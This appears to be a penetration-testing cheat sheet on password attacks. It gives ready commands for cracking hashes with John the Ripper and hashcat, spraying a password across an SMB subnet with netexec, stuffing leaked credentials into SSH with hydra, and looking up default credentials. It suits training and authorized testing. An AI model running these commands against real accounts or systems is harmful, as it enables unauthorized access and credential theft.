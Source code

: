```yaml
---
title: Password Attacks
tags: [hash, password, cracking]
tools: ['john', 'hashcat', 'hasid', 'netexec', 'hydra']
---
```


# General Password Cracking

## John The Ripper

### Single crack mode

`Single crack mode` is a rule-based cracking technique that  is most useful when targeting Linux credentials. It generates password  candidates based on the victim's username.

```bash
# Use -n to trim /n - Alt use printf
echo -n r0lf:$6$ues25dIanlctrWxg$nZHVz2z4kCy1760Ee28M1xtHdGoy0C2cYzZ8l2sVa1kIa8K9gAcdBP.GI6ng/qA4oaMrgElZ1Cb9OeXO4Fvy3/:0:0:Rolf Sebastian:/home/r0lf:/bin/bash > passwd

john --single passwd
```

### Hash mode w/ wordlists

Find the hashing algorithm, attach a word list and crack

```bash
# use hashid to discover format
hashid -j 193069ceb0461e1d40d216e32c79c704

# Output to file
echo -n 193069ceb0461e1d40d216e32c79c704 > hash.txt

# Crack
john --wordlist=/usr/share/seclists/rockyou.txt --format=ripemd-128 hash.txt
```

## Hashcat

### General syntax

```shell-session
# Identify hashid, -m for hashcat
hashid -m '$1$FNr44XZC$wQxY6HHLrgrGX0e1195k.1'

# -a - attack mode | -m - hash type | <hashes> string or file
hashcat -a 0 -m 0 <hashes> [wordlist, rule, mask, ...]
```

### Attack modes

#### Dictionary attack

```bash
# Dictionary attack
hashcat -a 0 -m 0 e3e3ec5831ad5e7288241960e5d4fdb8 /usr/share/wordlists/rockyou.txt

# Dictionary attack with rules
hashcat -a 0 -m 0 1b0556a75770563578569ae21392630c /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

#### Mask attack

[Mask attack](https://hashcat.net/wiki/doku.php?id=mask_attack) (`-a 3`) is a type of brute-force attack in which the keyspace is explicitly  defined by the user. For example, if we know that a password is eight  characters long, rather than attempting every possible combination, we  might define a mask that tests combinations of six letters followed by  two numbers.

`hashcat -a 3 -m 0 1e293d6912d074c0fd15844d803400dd '?u?l?l?l?l?d?s'`

## Spraying, Stuffing, and Defaults

### Spraying windows:

```shell-session
netexec smb 10.100.38.0/24 -u <usernames.list> -p 'ChangeMe123!'
```

### SSH Stuffing:

Re-use creds from a different service | `username:password` credentials obtained from a database leak

```shell-session
hydra -C user_pass.list ssh://10.100.38.23
```

### Default Creds:

`````
pip3 install defaultcreds-cheat-sheet
creds search linksys
`````









